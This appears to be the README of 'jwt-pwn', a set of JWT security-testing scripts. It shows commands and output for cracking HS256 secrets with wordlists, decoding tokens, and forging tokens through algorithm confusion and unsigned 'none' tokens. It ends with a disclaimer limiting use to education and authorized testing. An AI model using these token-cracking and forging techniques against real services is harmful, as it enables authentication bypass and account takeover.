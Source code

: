 jwt-pwn
=========

## Security Testing Scripts for JWT

---

## jwt-cracker.py

JWT password/secret cracker.

```
$python3 jwt-cracker.py -jwt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4" -t 10 -w /pentest/wordlist.txt
[info] Loaded wordlist.
[info] starting brute-forcing.
[#] KEY FOUND: 1234
```

---


## go-jwt-cracker

JWT password/secret cracker that is much faster.

```
$ cd go-jwt-cracker
$ go get
$ go build # Building the binary.

$ ./go-jwt-cracker -wordlist /pentest/wordlist.txt -token "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4"
[+] Key Found: 1234
```

---

## jwt-decoder.py

Decodes the value of JWT.

```
$ python3 jwt-decoder.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1
YqLEv9ypAApz27nfYP5L4"


[#] JWT Header:
{"alg": "HS256", "typ": "JWT"}

[#] JWT Value:
{"jwt": "pwn"}
```

---

## jwt-any-to-hs256.py

Generates a new JWT that is signed with HS256 with the same payload value of a provided JWT.

```
python3 jwt-any-to-hs256.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc
8D-J1YqLEv9ypAApz27nfYP5L4"


[#] Generated JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqd3QiOiJwd24ifQ.WqY6R5zmscIx_6ZFwSASHZ_1zbqih_IdtLv_S2Pj028
```

---

## jwt-mimicker.py

Generates a new unsigned JWT with the same payload value of a provided JWT.

```
python3 jwt-mimicker.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J
1YqLEv9ypAApz27nfYP5L4"


[#] Generated unsigned JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJqd3QiOiJwd24ifQ.
```

---

# **Requirements** #
* Python2 or Python3
* pyjwt


# **Legal Disclaimer** #
This project is made for educational and ethical testing purposes only. Usage of jwt-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# **License** #
The project is licensed under MIT License.


